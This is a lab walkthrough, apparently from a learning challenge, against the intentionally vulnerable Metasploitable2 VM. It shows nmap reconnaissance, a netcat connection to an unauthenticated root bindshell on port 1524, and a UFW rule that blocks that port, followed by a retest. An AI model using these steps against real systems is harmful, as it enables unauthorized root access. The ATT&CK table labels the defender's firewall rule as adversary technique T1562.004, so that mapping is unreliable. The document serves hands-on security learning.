



# Day 12: Red Team vs Blue Team - Firewall Lockout

**Metasploitable2** walkthrough covering **Reconnaissance, Exploitation, Hardening, and Validation** to achieve root access, then block the vector with UFW. This write-up includes step-by-step commands, tool usage, screenshots, and MITRE ATT&CK mapping.

**Target**: `192.168.56.3` | **Attacker**: Kali `192.168.56.4` | **Date**: 2026-06-28
**Challenge**: #30DayCybersecurityChallenge Day 12

---

## Table of Contents
- [Overview](#overview)
- [Lab Setup](#lab-setup)
- [1. Reconnaissance - Red Team](#1-reconnaissance---red-team)
- [2. Exploitation - Red Team](#2-exploitation---red-team)
- [3. Hardening - Blue Team](#3-hardening---blue-team)
- [4. Validation](#4-validation)
- [5. Lessons Learned](#5-lessons-learned)
- [6. MITRE ATT&CK](#6-mitre-attack)
- [7. References](#7-references)

## Overview
This lab documents a full Red → Blue Team cycle against Metasploitable2. The goal was to gain root via the unauthenticated `bindshell` on TCP/1524, then defend by blocking the port and validating the mitigation to avoid self-lockout.

## Lab Setup
| Component | Detail |
| --- | --- |
| **Target VM** | Metasploitable2 `192.168.56.3` - NAT/Host-Only Network |
| **Attacker VM** | Kali Linux `192.168.56.4` |
| **Tools** | `ping`, `nmap`, `netcat nc`, `ufw` |
| **Vulnerable Service** | `1524/tcp bindshell Metasploitable root shell` |

## 1. Reconnaissance - Red Team
> **1.1 Host Discovery + Service Scan**

# 1. Confirm host is up
ping -c 4 192.168.56.3

# 2. Full service/version scan
sudo nmap -sV -sC -O -T4 192.168.56.3

_Fig 1: Recon - `nmap -sV` identified `1524/tcp open bindshell Metasploitable root shell`_

2. Exploitation - Red Team
> *2.1 Bindshell Access - No Auth Required*

# 3. Connect directly to the bindshell
nc 192.168.56.3 1524

_Fig 2: Exploit - Instant root shell `root@metasploitable:~#` via T1190. Exploit time: ∼3 seconds_

3. Hardening - Blue Team
> *3.1 Block Port with UFW - T1562.004*

# 4. Enable firewall
sudo ufw enable

# 5. Block the exploited backdoor port
sudo ufw deny 1524/tcp

# 6. Verify the rule
sudo ufw status verbose

_Fig 3: Blue Team - `1524/tcp DENY Anywhere` applied. Attack vector closed._

4. Validation
> *4.1 Retest Exploit to Confirm Mitigation*

# 7. Retest the exploit from Kali
nc 192.168.56.3 1524

_Fig 4: Validation - `Connection timed out`. Attack blocked , but remote access via that port is dead 

5. Lessons Learned
1. *Scan ➜ Exploit ➜ Harden ➜ Validate*: This is the core cybersecurity loop.
2. *Default Backdoors = RCE*: `1524/tcp bindshell` requires 0 auth. Critical risk in lab VMs.
3. *Firewalls Mitigate Fast*: 1 command `ufw deny` fully mitigated T1190 via T1562.004.
4. *Avoid Self-DoS*: Blocking your only access port without SSH/management IP = lock yourself out.
*Fix*: Always `sudo ufw allow ssh` before `sudo ufw deny all`.

6. MITRE ATT&CK Mapping

Tactic Technique Technique ID Description
**Initial Access** Exploit Public-Facing Application T1190 Exploited unauth bindshell on 1524/tcp
**Defense Evasion** Impair Defenses: Firewall Rule T1562.004 Used `ufw deny` to block the port

## 7. References
1.  Rapid7 Metasploitable2 ExploitabiT Guide: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
2.  MITRE ATT&CK T1190: https://attack.mitre.org/techniques/T1190/
3.  MITRE ATT&CK T1562.004: https://attack.mitre.org/techniques/T1562/004/

---
**Tags**: #RedTeam #BlueTeam #SOC #UFW #Firewall #Metasploitable2 #Linux #EthicalHacking #LearningInPublic #30DayCybersecurityChallenge
